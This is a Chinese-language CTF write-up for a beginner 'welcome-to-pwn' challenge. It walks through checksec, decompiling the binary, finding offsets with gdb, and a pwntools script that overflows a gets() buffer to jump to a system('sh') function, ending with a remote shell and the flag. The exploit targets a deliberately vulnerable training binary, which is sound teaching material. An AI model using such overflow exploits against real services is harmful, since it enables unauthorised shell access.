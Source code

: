 # [2024SpringTrains] welcome-to-pwn WriteUp

## 工具准备

### 一台 Linux 系统 (推荐 Debian 系的比如 Ubuntu 或 Kali Linux 的 虚拟机 / WSL)

[Kali WSL 安装教程](https://herveyb3b4.github.io/2023/11/30/How-to-install-Kali-WSL/) ~~趁机宣传一下博客~~

### gdb 调试工具

```shell
sudo apt install gdb
```

### pwntools

```shell
sudo apt install python3-pwntools
```

或者直接使用 `pip3` 安装

```shell
python3 -m pip install pwntools
```

## 过程记录

下载后获得文件 attachment

先使用 `file` 命令查看文件类型，发现是一个 ELF 64 位程序

```shell
┌──(hervey㉿Hervey)-[~/Downloads]
└─$ file ./attachment
./attachment: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6ad1699dcda24040006490441da0f0e70ef03456, not stripped
```

接着使用 `checksec` 命令识别安全属性

```shell
┌──(hervey㉿Hervey)-[~/Downloads]
└─$ checksec --file=attachment
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   68 Symbols        No    0               1               attachment
```

可以发现无任何栈保护

使用 IDA 64 进行逆向

`main()` 函数

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[48]; // [rsp+0h] [rbp-30h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  puts("Welcome to Stringer CTF 2024.");
  gets(v4);
  return 0;
}
```

同时我们还能找到一个 `try_to_call_me` 函数

```c
int try_to_call_me()
{
  return system("sh");
}
```

所以我们的目标应该是利用 `gets()` 这个危险函数的缓冲区溢出漏洞，将 `v4` 变量数据溢出到覆盖返回地址，实现跳转到执行 `system("sh")` 进而去获得 flag

使用 `gdb` 运行 `attachment` 获得变量 `v4` 的缓冲区大小以及 `system("sh")` 对应的位置

```shell
┌──(hervey㉿Hervey)-[~/Downloads]
└─$ gdb
GNU gdb (Debian 13.2-1) 13.2
Copyright (C) 2023 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
(gdb) file attachment
Reading symbols from attachment...
(No debugging symbols found in attachment)
(gdb) disassemble main
Dump of assembler code for function main:
   0x000000000040069a <+0>:     push   %rbp
   0x000000000040069b <+1>:     mov    %rsp,%rbp
   0x000000000040069e <+4>:     sub    $0x30,%rsp
   0x00000000004006a2 <+8>:     mov    0x2009b7(%rip),%rax        # 0x601060 <stdout@@GLIBC_2.2.5>
   0x00000000004006a9 <+15>:    mov    $0x0,%ecx
   0x00000000004006ae <+20>:    mov    $0x2,%edx
   0x00000000004006b3 <+25>:    mov    $0x0,%esi
   0x00000000004006b8 <+30>:    mov    %rax,%rdi
   0x00000000004006bb <+33>:    call   0x400590 <setvbuf@plt>
   0x00000000004006c0 <+38>:    mov    0x2009a9(%rip),%rax        # 0x601070 <stdin@@GLIBC_2.2.5>
   0x00000000004006c7 <+45>:    mov    $0x0,%ecx
   0x00000000004006cc <+50>:    mov    $0x2,%edx
   0x00000000004006d1 <+55>:    mov    $0x0,%esi
   0x00000000004006d6 <+60>:    mov    %rax,%rdi
   0x00000000004006d9 <+63>:    call   0x400590 <setvbuf@plt>
   0x00000000004006de <+68>:    mov    0x20099b(%rip),%rax        # 0x601080 <stderr@@GLIBC_2.2.5>
   0x00000000004006e5 <+75>:    mov    $0x0,%ecx
   0x00000000004006ea <+80>:    mov    $0x2,%edx
   0x00000000004006ef <+85>:    mov    $0x0,%esi
   0x00000000004006f4 <+90>:    mov    %rax,%rdi
   0x00000000004006f7 <+93>:    call   0x400590 <setvbuf@plt>
   0x00000000004006fc <+98>:    lea    0xa4(%rip),%rdi        # 0x4007a7
   0x0000000000400703 <+105>:   call   0x400560 <puts@plt>
   0x0000000000400708 <+110>:   lea    -0x30(%rbp),%rax
   0x000000000040070c <+114>:   mov    %rax,%rdi
   0x000000000040070f <+117>:   mov    $0x0,%eax
   0x0000000000400714 <+122>:   call   0x400580 <gets@plt>
--Type <RET> for more, q to quit, c to continue without paging--c
   0x0000000000400719 <+127>:   mov    $0x0,%eax
   0x000000000040071e <+132>:   leave
   0x000000000040071f <+133>:   ret
End of assembler dump.
(gdb) disassemble try_to_call_me
Dump of assembler code for function try_to_call_me:
   0x0000000000400687 <+0>:     push   %rbp
   0x0000000000400688 <+1>:     mov    %rsp,%rbp
   0x000000000040068b <+4>:     lea    0x112(%rip),%rdi        # 0x4007a4
   0x0000000000400692 <+11>:    call   0x400570 <system@plt>
   0x0000000000400697 <+16>:    nop
   0x0000000000400698 <+17>:    pop    %rbp
   0x0000000000400699 <+18>:    ret
End of assembler dump.
```

从这里我们可以得知:

* 变量 `v4` 的地址位于 `rbp-30h` ，64位程序还需要再加 8 位，即 `rbp-38h`
* `system("sh")` 语句对应的地址为 `0x000000000040068b`

由此我们可以写出脚本

```python
from pwn import *
p = remote("<IP Address>", <Port>)
payload = b'A' * 0x30 + b'12345678' + p64(0x40068B)
p.sendline(payload)
p.interactive()
```

运行该脚本，进入容器终端

```shell
┌──(hervey㉿Hervey)-[~/Downloads]
└─$ python3 ./sol.py
[+] Opening connection to <IP Address> on port <Port>: Done
[*] Switching to interactive mode
Welcome to Stringer CTF 2024.
$ ls
attachment
bin
dev
flag
lib
lib32
lib64
$ cat flag
flag{<flag>}
```

进而获得 flag
